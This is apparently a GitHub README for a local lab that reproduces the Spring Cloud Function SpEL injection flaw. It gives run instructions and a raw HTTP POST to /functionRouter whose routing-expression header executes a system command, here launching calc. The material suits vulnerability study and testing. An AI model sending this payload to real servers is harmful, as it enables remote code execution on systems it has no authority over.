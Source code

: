 # Spring-Cloud-Function-SpEL
可访问个人博客查看详情 https://pizz33.github.io/ \
一个用于Spring Cloud Function SpEL表达式注入的测试环境\
版本 java11 运行 java -jar demo-0.0.1-SNAPSHOT.jar 启动\
\
搭建完成访问127.0.0.1:8080端口\
![image](https://user-images.githubusercontent.com/88339946/160252763-dcdab609-08a5-4d70-afb0-0f8870d64f82.png)
```
POST /functionRouter HTTP/1.1
Host: 127.0.0.1:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc")
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

xxx
```
![ed8de6718b7501e80a470a96293aa37](https://user-images.githubusercontent.com/88339946/160252782-8173cb68-e9bc-4337-86fd-36dc9feddce7.jpg)
